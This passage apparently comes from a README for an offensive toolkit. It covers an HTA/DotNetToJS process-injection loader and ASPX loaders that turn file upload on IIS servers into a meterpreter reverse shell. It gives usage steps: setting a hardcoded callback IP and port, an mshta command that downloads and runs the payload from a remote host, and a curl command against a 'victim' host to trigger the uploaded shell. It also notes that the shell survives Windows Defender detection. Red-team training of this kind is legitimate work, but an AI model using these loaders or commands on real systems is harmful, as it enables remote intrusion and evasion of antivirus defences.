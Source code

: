   - The Windows Defender setup shown above flags the DotNetToJS setup code in the Users's Internet Explorer cache directory, but interestingly enough even if the cached file is deleted, the `mshta.exe` process that the shell is living in isn't killed. So, you get to keep the shell!

### Usage

1. Change the hardcoded callback IP, Port, and target injection process arguments
    - Easiest way is to just edit the following line towards the bottom of [DLLInject64_DN2JS.js](DLLInject64/payload_dir/DLLInject64_DN2JS.js)
    - ```js
      o.RunProcess("192.168.45.241", "53", "svchost");
      ```
2. Download and run with `mshta`:
   - ```bat
     mshta http://192.168.45.241/tmp/rev/DLLInject64_DN2JS.hta
     ```

## ASPX Loaders

These projects are meant to be used when you have arbitrary file upload on an IIS Server website. If you can upload `.aspx` files, you may use something like these files to get a reverse shell using meterpreter.

Both of these files draw inspiration from the `msfvenom -f aspx` payloads for the basic format. They're basically a `clinject` (ASPX_Inject64) or `clrunner` (ASPX_Runner64) payload wrapped in ASPX formatting.

I also highly recommend this read to understand how ASPX Files work: [codeproject - Behind the Scense of ASPX Files](https://www.codeproject.com/Articles/5897/Behind-the-scenes-of-ASPX-files).

Both require user configuration in the first lines of their respective `Page_Load` functions, as well as removal of any comments/HTML as desired. I left them there for educative purposes, since that is the point of these projects.

After configuring and uploading either of them, just visit the path where they are stored and the IIS server will compile and execute them for you! How nice :)
```sh
curl http://pwn.victim.com/ASPX_Inject64.aspx
```

Both were tested on the following Windows Defender setup:
```
AMEngineVersion                 : 1.1.17500.4
AMProductVersion                : 4.18.2009.7
AMRunningMode                   : Normal
AMServiceEnabled                : True
AMServiceVersion                : 4.18.2009.7
AntispywareEnabled              : True
AntispywareSignatureAge         : 1188
AntispywareSignatureLastUpdated : 10/12/2020 8:24:19 PM
AntispywareSignatureVersion     : 1.325.683.0
AntivirusEnabled                : True
AntivirusSignatureAge           : 1188
AntivirusSignatureLastUpdated   : 10/12/2020 8:24:21 PM
AntivirusSignatureVersion       : 1.325.683.0
BehaviorMonitorEnabled          : False
```
